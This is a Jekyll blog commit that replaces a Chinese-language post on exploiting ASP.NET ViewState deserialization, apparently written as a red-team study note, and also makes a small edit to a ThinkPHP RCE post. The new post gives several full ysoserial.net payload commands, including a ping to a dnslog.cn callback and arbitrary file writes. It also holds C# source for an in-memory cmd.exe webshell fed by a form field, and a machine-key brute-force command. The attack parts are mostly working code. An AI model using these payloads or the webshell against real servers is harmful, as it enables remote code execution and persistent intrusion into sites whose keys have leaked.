

Before and after one commit to ArcaneLuna/ArcaneLuna.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 900 px high, scrolled down 209 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; the list of posts is cut into pages by our own code; comment, search, counter and statistics services are not loaded; some of the changed lines change nothing that is shown.

Commit message:
docs: viewstate exp

````diff
--- a/_posts/2024-08-03-viewstate-exp.md
+++ /dev/null
@@ -1,152 +0,0 @@
----
-layout: post
-title: "【网络安全】ASP.NET ViewState反序列化漏洞学习"
-subtitle: "This is a subtitle"
-date: 2024-08-03
-author: "3thernet"
-header-img: "img/bg-touhou-1.jpg"
-tags: []
----
-
-最近连续参加的几次攻防都有见到 ViewState 反序列化漏洞 getshell 的身影，算是红队基本功，简单做下笔记。
-
-相关工具：
-
-1. [ysoserial](https://github.com/pwntester/ysoserial.net)
-
-2. [Blacklist3r](https://github.com/NotSoSecure/Blacklist3r)
-
-## 0x01 概述
-
-ViewState用于在请求之间保持Web控件和页面的状态，防止服务器返回错误导致状态被清空。数据会被序列化成Base64字符串并嵌入页面的隐藏字段（通常是`__VIEWSTATE`）。
-
-漏洞成因在于ASP.NET使用`LosFomatter`序列化 ViewState，并使用`ObjectStateFormatter`反序列化 ViewState。而 ViewState 又完全由客户端提交，尽管过程中可以进行**加密**和**签名**，但一旦相关的 Machinekey（decryption, validation相关信息）泄露，就会触发 ObjectStateFormatter 的反序列化漏洞。
-
-MachineKey 通常显示配置在`web.config`文件中。如果没有显式配置，ASP.NET会自动生成一个密钥，但在应用程序重启时可能会发生变化，导致无法解密先前加密的数据。(?)
-
-示例：
-
-```
-<machineKey
-validationKey="70DBADBFF4B7A13BE67DD0B11B177936F8F3C98BCE2E0A4F222F7A769804D451ACDB196572FFF76106F33DCEA1571D061336E68B12CF0AF62D56829D2A48F1B0"
-decryptionKey="34C69D15ADD80DA4788E6E3D02694230CF8E9ADFDA2708EF43CAEF4C5BC73887"
-validation="SHA1"
-decryption="AES"  />
-```
-
-## 0x02 利用条件
-
-1. ASP.NET<4.5.x，未开启MAC验证
-
-2. ASP.NET<4.5.x，开启MAC验证，ysoserial 工具需要知道 validation 算法，validationkey 来生成 ViewState 的 payload。即使`ViewStateEncryptionMode`已设置为`Always`，ASP.NET 仅会检查请求中是否存在`__VIEWSTATEENCRYPTED`参数，如果删除此参数并发送未加密的有效负载，它仍将被处理
-
-3. ASP.NET>=4.5.x，开启MAC验证，和上一条的区别在于 ysoserial 工具除了需要知道 validation 算法，validationkey，还需要知道 decryption算法和 decryptionkey 来生成 ViewState 的 payload
-
-### 2.1 未开启MAC验证
-
-未开启MAC验证的情况不太常见，ASP.NET4.5.2版本以后强制开启 MAC 验证，手动关闭需要两步：
-
-1、修改注册表 AspNetEnforceViewStateMac 为 0
-
-`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\.NETFramework\v{version}`
-
-2、修改 web.config 中的 enableViewStateMac 选项为 false
-
-判断是否开启MAC验证：发送`__VIEWSTATE=AAAA`（简单的base64），如果目标页面回显错误，表示MAC验证已被禁用，否则不会显示错误页面（也可能显示具体MAC校验错误信息）
-
-这种情况直接上 payload：
-
-```powershell
-.\ysoserial.exe
--o base64
--g TypeConfuseDelegate
--f LosFormatter
--c "ping 123456.dnslog.cn"
-# 指定-f LosFormatter或者-p ViewState
-```
-
-### 2.2 ASP.NET < 4.5.x，开启MAC验证
-
-ASP.NET 常见的签名算法为 HMACSha256（也可能是SHA1），计算出的签名会附加在 ViewState 数据最后。MacKeyModifier 是签名算法的 Salt，由 ClientId 和 ViewStateUserKey 两部分拼接而成，默认情况下，ViewStateUserKey 为空（也很少会设置），ClientId 为当前页面虚拟目录路径(apppath)和类型名称(path)的 HashCode 之和，并以 Hex 形式存放于名为`__VIEWSTATEGENERATOR`的隐藏表单中。换言之，如果表单中没有该选项，就需要黑盒爆破获得apppath。path可以通过请求路径得出：蒋其中的`.`和`/`替换为为`_`，如`a/b/c.aspx`的最终类型名为`a_b_c_aspx`。
-
-```powershell
-.\ysoserial.exe
--o base64
--p ViewState
--g TextFormattingRunproperties
--c "ping 123456.dnslog.cn"
---path="/site/test.aspx"
---apppath="/"
---validationalg="SHA1"
---validationkey="BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB"
-```
-
-### 2.3 ASP.NET >= 4.5.x，开启MAC验证
-
-高版本的ASP.NET能否强行关闭MAC验证，只启用加密？（未做实验）
-
-```powershell
-.\ysoserial.exe
--o base64
--p ViewState
--g TextFormattingRunproperties
--c "ping 123456.dnslog.cn"
---generator=CA0B0334
---validationalg="SHA1"
---validationkey="BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB"
---decryptionalg="3DES"
---decryptionkey="CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC"
-```
-
-### 2.4 MachineKey
-
-开启 MAC 验证后必须知道 Machinekey 才能打，一般是通过任意文件读取或者XXE漏洞获得，也可以使用 Blacklist3r 工具爆破：
-
-```powershell
-.\ASPNetWrapper.exe
---keypath MachineKeys.txt
---encrypteddata={__VIEWSTATE}
---modifier={__VIEWSTATEGENERATOR}
-```
-
-### 2.5 其他
-
-借助 yso 的 islegacy 和 isdebug 开关，可以尝试猜测 path 和 apppath 的值
-
-如果服务器设置了 ViewStateUserKey，则需要在添加`--viewstateuserkey`选项
-
-## 0x03 攻击链
-
-TypeConfusedDelegate 链？
-
-ActivitySurrogateSelectorFromFile 链?
-
-## 0x04 ViewState CVE
-
-- CVE-2020-0688
-
-- CVE-2020-16592
-
-## 0x05 参考
-
-- [.NET 分享ViewState反序列化漏洞个人总结 (qq.com)](https://mp.weixin.qq.com/s/7mtTDKQ3eJet3rxLKZyBNw)
-
-- [深入 .NET ViewState 反序列化及其利用 (qq.com)](https://mp.weixin.qq.com/s/RlY5HL_ak4G8EdcXyevWDg)
-
-- [通过 ViewState 利用 ASP.NET 中的反序列化 |Soroush Dalili （@irsdl） 博客](https://soroush.me/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/)
-
-- [玩轉 ASP.NET VIEWSTATE 反序列化攻擊、建立無檔案後門 | DEVCORE 戴夫寇爾](https://devco.re/blog/2020/03/11/play-with-dotnet-viewstate-exploit-and-create-fileless-webshell/)
-
-- [ViewState反序列化 - zpchcbd - 博客园 (cnblogs.com)](https://www.cnblogs.com/zpchcbd/p/15112047.html)
-
-- [TypeConfusedDelegate以及魔改yso - Gr3yy's Blog (gr3yyy123.github.io)](https://gr3yyy123.github.io/2022/05/28/TypeConfusedDelegate%E4%BB%A5%E5%8F%8A%E9%AD%94%E6%94%B9yso/)
-
-- [.Net ViewState反序列化实现无文件哥斯拉内存马 – Whwlsfb's Tech Blog (wanghw.cn)](https://blog.wanghw.cn/security/dotnet-viewstate-no-file-godzilla-memshell.html)
-
-- [利用ViewState在ASP.NET中实现反序列化RCE - 技术转载 安全矩阵 (smatrix.org)](http://www.smatrix.org/forum/forum.php?mod=viewthread&tid=331)
-
-- [利用.NET 反序列化做权限维持 | MYZXCG](https://myzxcg.com/2021/11/%E5%88%A9%E7%94%A8.NET-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%81%9A%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81/)
-
-- [CVE-2020-0688的武器化与.net反序列化漏洞那些事-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/199921#h3-9)
-
-- [Zero Day Initiative — CVE-2020-0688: Remote Code Execution on Microsoft Exchange Server Through Fixed Cryptographic Keys](https://www.zerodayinitiative.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys)
--- a/_posts/2024-08-08-thinkphp32x-rce.md
+++ b/_posts/2024-08-08-thinkphp32x-rce.md
@@ -23,7 +23,7 @@
 
 日志如下：
 
-![](../img/2024-08-08-thinkphp32x-rce/1.png)
+![](/img/2024-08-08-thinkphp32x-rce/1.png)
 
 自行搭建靶场测试请参考：
 
@@ -46,7 +46,7 @@
 }
 ```
 
-fetch 方法在`$tpl`不存在时会将 payload 写入 log：
+fetch 方法在`$tpl`不存在时会调用E方法将 payload 写入 log：
 
 ```php
 // 模板文件不存在直接返回
--- /dev/null
+++ b/_posts/2024-08-12-viewstate-exp.md
@@ -0,0 +1,295 @@
+---
+layout: post
+title: "【网络安全】ASP.NET ViewState反序列化漏洞学习"
+date: 2024-08-12
+author: "3thernet"
+header-img: "img/bg-touhou-3.jpg"
+tags: []
+---
+
+最近连续参加的几次攻防都有见到 ViewState 反序列化漏洞 getshell 的身影，算是红队基本功，简单做下笔记。
+
+相关工具：
+
+1. [ysoserial](https://github.com/pwntester/ysoserial.net)
+
+2. [Blacklist3r](https://github.com/NotSoSecure/Blacklist3r)
+
+环境：.NET Framework 4.8.9256.0
+
+- 注意在网站调试信息中产生的`版本信息: Microsoft .NET Framework 版本:4.0.30319; ASP.NET 版本:4.8.9232.0`实际上表示的是运行时版本CLR为 4.0.30319，ASP.NET 组件版本 4.8.9256.0
+
+查看.NET Framework版本：
+
+```cs
+using System;
+using System.Runtime.InteropServices;
+
+class Program
+{
+    static void Main()
+    {
+        // 输出真正的.NET Framework版本
+        Console.WriteLine(RuntimeInformation.FrameworkDescription);
+    }
+}
+```
+
+参考：[确定已安装的 .NET Framework 版本 - .NET Framework | Microsoft Learn](https://learn.microsoft.com/zh-cn/dotnet/framework/migration-guide/how-to-determine-which-versions-are-installed)
+
+## 0x01 概述
+
+ViewState用于在请求之间保持Web控件和页面的状态，防止服务器返回错误导致状态被清空。数据会被序列化成Base64字符串并嵌入页面的隐藏字段（通常是`__VIEWSTATE`）。
+
+漏洞成因在于ASP.NET使用`LosFomatter`序列化 ViewState，并使用`ObjectStateFormatter`反序列化 ViewState。而 ViewState 又完全由客户端提交，尽管过程中可以进行**加密**和**签名**，但一旦相关的 Machinekey（decryption, validation相关信息）泄露，就会触发 ObjectStateFormatter 的反序列化漏洞。
+
+MachineKey 通常显示配置在`web.config`文件中。如果没有显式配置，ASP.NET会自动生成一个密钥，但在应用程序重启时会发生变化。
+
+示例：
+
+```
+<machineKey
+validationKey="F2D27DF0348E9A3EAD6AC66330C31F821394D4CD1A5E139EEE85EA9D9F2A963E55EC87572F699FB834292CC9E37AD56B6B26AA379106CBA5E9AA544C688F3E92"
+decryptionKey="F6D5A5C8DDEC57481610829F58D6C95BDAC5FA21082F3FA9CB5A36DCEAACBEDB"
+validation="SHA1"
+decryption="AES" />
+```
+
+## 0x02 利用条件
+
+1. 未开启MAC验证和加密
+
+2. ASP.NET<=4.0，开启MAC验证，无论是否开启加密
+
+   - ysoserial 工具只需要知道 validation 算法，validationkey 来生成 ViewState 的 payload
+
+   - 即使`ViewStateEncryptionMode`已设置为`Always`，如果ASP.NET<4.5.2 则仅检查请求中是否存在`__VIEWSTATEENCRYPTED`参数，如果删除此参数并发送未加密的有效负载，ViewState 仍将被处理（这是一个BUG）
+
+3. ASP.NET>=4.5，开启MAC验证
+
+   - 未开启加密，ysoserial 工具只需要知道 validation 算法，validationkey 来生成 ViewState 的 payload
+
+   - 开启加密，ysoserial 工具除了需要知道 validation 算法，validationkey，还需要知道 decryption算法和 decryptionkey 来生成 ViewState 的 payload
+
+   - Web.config 必须要设置`<httpRuntime targetFramework="4.5" />`或者在machinekey加入`compatibilityMode=”Framework45"`字段才能解决未加密ViewState被处理的BUG
+
+### 2.1 未开启MAC验证
+
+未开启MAC验证的情况不太常见，ASP.NET4.5.2版本以后强制开启 MAC 验证（KB2905247），手动关闭需要两步：
+
+1、修改注册表 AspNetEnforceViewStateMac 为 0
+
+`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\.NETFramework\v{version}`
+
+2、修改 web.config `<pages enableViewStateMac="false" />`
+
+判断是否开启MAC验证：发送`__VIEWSTATE=AAAA`（简单的base64），如果目标页面回显：
+
+```html
+<title>此页的状态信息无效，可能已损坏。</title>
+```
+
+表示关闭了MAC验证。
+
+如果回显：
+
+```html
+<title>验证视图状态 MAC 失败。如果此应用程序由网络场或群集托管，请确保 <machineKey> 配置指定了相同的 validationKey 和验证算法。不能在群集中使用 AutoGenerate。<br><br>请参阅 http://go.microsoft.com/fwlink/?LinkID=314055 获取详细信息。</title>
+```
+
+则表示开启了MAC验证。
+
+如果程序员在`<system.web>`中加入`<customErrors mode="On" />`，或者自定义错误页面就无法判断：
+
+```html
+<title>运行时错误</title>
+```
+
+假定我们现在已经关闭了MAC验证，直接上 payload：
+
+```powershell
+.\ysoserial.exe
+-o base64
+-g TextFormattingRunProperties # 换成TypeConfuseDelegate打不出dnslog回显
+-f LosFormatter
+-c "ping 123456.dnslog.cn"
+```
+
+![](/img/2024-08-12-viewstate-exp/1.png)
+
+填入`__VIEWSTATE`字段，回显成功：
+
+![](/img/2024-08-12-viewstate-exp/2.png)
+
+### 2.2 ASP.NET <=4.0，开启MAC验证
+
+ASP.NET 常见的签名算法为 HMACSha256（也可能是SHA1），计算出的签名会附加在 ViewState 数据最后。MacKeyModifier 是签名算法的 Salt，由 ClientId 和 ViewStateUserKey 两部分拼接而成，默认情况下，ViewStateUserKey 为空（也很少会设置），ClientId 为当前页面虚拟目录路径(apppath)和类型名称(path)的 HashCode 之和，并以 Hex 形式存放于名为`__VIEWSTATEGENERATOR`的表单字段中。
+
+.NET<=4.0 的表单中会带有`__VIEWSTATEGENERATOR`，对于不含该字段的高版本 .NET，ysoserial 需要使用`path`和`apppath`选项：
+
+```powershell
+.\ysoserial.exe
+-p ViewState
+-g TextFormattingRunProperties
+-c "echo 123 > e:\test.txt"
+--path="/default.aspx"
+--apppath="/"
+--validationalg="SHA1"
+--validationkey="F2D27DF0348E9A3EAD6AC66330C31F821394D4CD1A5E139EEE85EA9D9F2A963E55EC87572F699FB834292CC9E37AD56B6B26AA379106CBA5E9AA544C688F3E92"
+--islegacy # 表示ASP.NET<=4.0，不需要加密密钥
+
+.\ysoserial.exe
+-p ViewState
+-g TextFormattingRunProperties
+-c "echo 123 > e:\test.txt"
+--generator=CA0B0334
+--validationalg="SHA1"
+--validationkey="F2D27DF0348E9A3EAD6AC66330C31F821394D4CD1A5E139EEE85EA9D9F2A963E55EC87572F699FB834292CC9E37AD56B6B26AA379106CBA5E9AA544C688F3E92"
+--isdebug # 开启后能看到CA0B0334等同于path="/"apppath="/default.aspx"
+# 使用generator选项，相当于默认ASP.NET<=4.0，因此不需要islegacy选项
+```
+
+![](/img/2024-08-12-viewstate-exp/3.png)
+
+![](/img/2024-08-12-viewstate-exp/4.png)
+
+### 2.3 ASP.NET >= 4.5，开启MAC验证
+
+未开启加密的情况同2.2，下面是开启加密的payload生成：
+
+```powershell
+.\ysoserial.exe
+-p ViewState
+-g TypeConfuseDelegate
+-c "echo 123 > e:\test.txt"
+--path="/default.aspx"
+--appath="/"
+--validationalg="SHA1"
+--validationkey="F2D27DF0348E9A3EAD6AC66330C31F821394D4CD1A5E139EEE85EA9D9F2A963E55EC87572F699FB834292CC9E37AD56B6B26AA379106CBA5E9AA544C688F3E92"
+--decryptionalg="AES"
+--decryptionkey="F6D5A5C8DDEC57481610829F58D6C95BDAC5FA21082F3FA9CB5A36DCEAACBEDB"
+
+# 从逻辑上下面的命令也应当正确，但事实却是MAC验证失败，原因不明
+.\ysoserial.exe
+-p ViewState
+-g TypeConfuseDelegate
+-c "echo 123 > e:\test.txt"
+--generator=CA0B0334
+--validationalg="SHA1"
+--validationkey="F2D27DF0348E9A3EAD6AC66330C31F821394D4CD1A5E139EEE85EA9D9F2A963E55EC87572F699FB834292CC9E37AD56B6B26AA379106CBA5E9AA544C688F3E92"
+--decryptionalg="AES"
+--decryptionkey="F6D5A5C8DDEC57481610829F58D6C95BDAC5FA21082F3FA9CB5A36DCEAACBEDB"
+--isencrypted
+```
+
+### 2.4 Webshell
+
+参考：[玩轉 ASP.NET VIEWSTATE 反序列化攻擊、建立無檔案後門 | DEVCORE 戴夫寇爾](https://devco.re/blog/2020/03/11/play-with-dotnet-viewstate-exploit-and-create-fileless-webshell/)
+
+首先需要 DisableTypeCheck：
+
+```powershell
+.\ysoserial.exe
+-p ViewState
+-g ActivitySurrogateDisableTypeCheck
+-c "ignore"
+--path="/default.aspx"
+--apppath="/"
+--validationalg="SHA1"
+--validationkey="F2D27DF0348E9A3EAD6AC66330C31F821394D4CD1A5E139EEE85EA9D9F2A963E55EC87572F699FB834292CC9E37AD56B6B26AA379106CBA5E9AA544C688F3E92"
+--decryptionalg="AES"
+--decryptionkey="F6D5A5C8DDEC57481610829F58D6C95BDAC5FA21082F3FA9CB5A36DCEAACBEDB"
+```
+
+然后在 ysoserial 文件夹下撰写一个用于执行任意代码的类（假定为 ExploitClass.cs）：
+
+```cs
+class E
+{
+    public E()
+    {
+        System.Web.HttpContext context = System.Web.HttpContext.Current;
+        context.Server.ClearError();
+        context.Response.Clear();
+        try
+        {
+            System.Diagnostics.Process process = new System.Diagnostics.Process();
+            process.StartInfo.FileName = "cmd.exe";
+            string cmd = context.Request.Form["cmd"];
+            process.StartInfo.Arguments = "/c " + cmd;
+            process.StartInfo.RedirectStandardOutput = true;
+            process.StartInfo.RedirectStandardError = true;
+            process.StartInfo.UseShellExecute = false;
+            process.Start();
+            string output = process.StandardOutput.ReadToEnd();
+            context.Response.Write(output);
+        } catch (System.Exception) {}
+        context.Response.Flush();
+        context.Response.End();
+    }
+}
+```
+
+生成 payload：
+
+```powershell
+.\ysoserial.exe
+-p ViewState
+-g ActivitySurrogateSelectorFromFile
+-c "ExploitClass.cs;C:/Windows/Microsoft.NET/Framework64/v4.0.30319/System.dll;C:/Windows/Microsoft.NET/Framework64/v4.0.30319/System.Web.dll"
+--path="/default.aspx"
+--apppath="/"
+--validationalg="SHA1"
+--validationkey="F2D27DF0348E9A3EAD6AC66330C31F821394D4CD1A5E139EEE85EA9D9F2A963E55EC87572F699FB834292CC9E37AD56B6B26AA379106CBA5E9AA544C688F3E92"
+--decryptionalg="AES"
+--decryptionkey="F6D5A5C8DDEC57481610829F58D6C95BDAC5FA21082F3FA9CB5A36DCEAACBEDB"
+```
+
+之后的请求都附带这个 payload 就可以操作 WebShell 了
+
+![](/img/2024-08-12-viewstate-exp/5.png)
+
+类似的还可以写哥斯拉内存马：[.Net ViewState反序列化实现无文件哥斯拉内存马 – Whwlsfb's Tech Blog (wanghw.cn)](https://blog.wanghw.cn/security/dotnet-viewstate-no-file-godzilla-memshell.html)
+
+### 0x03 其他
+
+开启 MAC 验证后必须知道 Machinekey 才能打，一般是通过任意文件读取或者XXE漏洞获得，也可以使用 Blacklist3r 工具爆破：
+
+```powershell
+.\ASPNetWrapper.exe
+--keypath MachineKeys.txt
+--encrypteddata={__VIEWSTATE}
+--modifier={__VIEWSTATEGENERATOR}
+```
+
+如果服务器设置了 ViewStateUserKey，还需要在添加`--viewstateuserkey`选项
+
+ysoserial 工具的几个 gadget 利用原理还需要继续学习。
+
+一些 .NET 反序列化 CVE：
+
+- CVE-2020-0688
+
+- CVE-2020-16592
+
+- CVE-2021-42321
+
+## 0x05 参考
+
+- [深入 .NET ViewState 反序列化及其利用 (qq.com)](https://mp.weixin.qq.com/s/RlY5HL_ak4G8EdcXyevWDg)
+
+- [.NET 分享ViewState反序列化漏洞个人总结 (qq.com)](https://mp.weixin.qq.com/s/7mtTDKQ3eJet3rxLKZyBNw)
+
+- [通过 ViewState 利用 ASP.NET 中的反序列化 Soroush Dalili （@irsdl） 博客](https://soroush.me/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/)
+
+- [ViewState反序列化 - zpchcbd - 博客园 (cnblogs.com)](https://www.cnblogs.com/zpchcbd/p/15112047.html)
+
+- [TypeConfusedDelegate以及魔改yso - Gr3yy's Blog (gr3yyy123.github.io)](https://gr3yyy123.github.io/2022/05/28/TypeConfusedDelegate%E4%BB%A5%E5%8F%8A%E9%AD%94%E6%94%B9yso/)
+
+- [利用ViewState在ASP.NET中实现反序列化RCE - 技术转载 安全矩阵 (smatrix.org)](http://www.smatrix.org/forum/forum.php?mod=viewthread&tid=331)
+
+- [利用.NET 反序列化做权限维持  MYZXCG](https://myzxcg.com/2021/11/%E5%88%A9%E7%94%A8.NET-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%81%9A%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81/)
+
+- [CVE-2020-0688的武器化与.net反序列化漏洞那些事-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/199921#h3-9)
+
+- [Zero Day Initiative — CVE-2020-0688: Remote Code Execution on Microsoft Exchange Server Through Fixed Cryptographic Keys](https://www.zerodayinitiative.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys)
````
Also changed, not shown: img/2024-08-12-viewstate-exp/1.png (added), img/2024-08-12-viewstate-exp/2.png (added), img/2024-08-12-viewstate-exp/3.png (added), img/2024-08-12-viewstate-exp/4.png (added), img/2024-08-12-viewstate-exp/5.png (added).
